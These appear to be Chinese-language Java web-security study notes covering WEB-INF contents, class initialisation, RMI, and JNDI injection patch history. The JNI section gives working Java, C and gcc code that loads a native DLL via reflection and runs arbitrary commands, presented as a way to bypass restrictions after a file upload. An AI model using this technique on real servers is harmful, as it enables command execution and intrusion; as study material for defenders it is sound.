


**WEB-INF** 是Java的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过**web.xml**文件对要访问的文件进行相应映射才能访问。

 WEB-INF主要包含以下文件或目录：
1. /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
2. /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
3. /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
4. /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
5. /WEB-INF/database.properties：数据库配置文件

**classLoader**
会初始化（执行static代码块）的函数有
1. Class.forName // 显式指定initialize 为 false除外
2. 实例化 // 也会执行构造函数

**JNI native方法**
当可以上传文件时，可以通过定义native方法，并加载dll文件，执行C函数，从而实现绕过。
步骤：
定义native方法，javac + javah （或javac -h）生成头文件
根据头文件写c代码，编译成dll后在java中加载。

```java
package org.example;
import java.io.File;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

class NativeExec {
    public static native String exec(String cmd);
}
public class NativeExecTest {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        File dllFile = new File("src/main/java/org/example/NativeExec.dll");

        Class<?> classLoaderClazz = Class.forName("java.lang.ClassLoader");
        Method loadLibrary0 = classLoaderClazz.getDeclaredMethod("loadLibrary0", Class.class, File.class);
        loadLibrary0.setAccessible(true);
        loadLibrary0.invoke(null, NativeExecTest.class, dllFile);
        System.out.println(NativeExec.exec("ls"));
    }
}
```

```powershell
gcc -shared -o NativeExec.dll -I"%JAVA_HOME%\include" -I"%JAVA_HOME%\include\win32" exec.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "org_example_NativeExec.h"

JNIEXPORT jstring JNICALL Java_org_example_NativeExec_exec
  (JNIEnv *env, jclass clazz, jstring cmd) {
    // 将 Java 字符串转换为 C 字符串
    const char *nativeCmd = (*env)->GetStringUTFChars(env, cmd, 0);

    // 打开一个管道以执行命令
    FILE *pipe = popen(nativeCmd, "r");
    if (!pipe) {
        (*env)->ReleaseStringUTFChars(env, cmd, nativeCmd);
        return (*env)->NewStringUTF(env, "Error: Unable to execute command");
    }

    // 读取命令输出
    char buffer[128];
    char result[1024] = {0};
    while (fgets(buffer, sizeof(buffer), pipe) != NULL) {
        strncat(result, buffer, sizeof(result) - strlen(result) - 1);
    }

    // 关闭管道
    pclose(pipe);

    // 释放 Java 字符串
    (*env)->ReleaseStringUTFChars(env, cmd, nativeCmd);

    // 将结果转换为 Java 字符串并返回
    return (*env)->NewStringUTF(env, result);
}
```

## RMI
类似一个数据库，客户端访问一个网址（名称），服务端查找这个名称是否有对应的对象。有则返回该对象。

返回由于要在网络中传输，故需要在服务端序列化，客户端反序列化

事实上客户端发送请求时还需要发送一个Remote对象（为了知道客户端请求的具体信息）
这个对象在客户端序列化，在服务端反序列化。

如果服务端返回的是一个Reference，指向ObjectFactory对象，那么它会自动初始化改类（static代码块以及无参构造方法），并调用该对象的getObjectInstance方法

## JNDI注入


利用版本为 <

8u113中在利用过程链上的`com\sun\jndi\rmi\registry\RegistryContext.class`的decodeObject函数上添加了判断trustURLCodebase逻辑，导致不能进入getObjectInstance，rmi利用链中断, 但ldap注入仍然可行



8u191中在sink点VersionHelper12.loadClass中增加逻辑判断, ldap注入也失效了


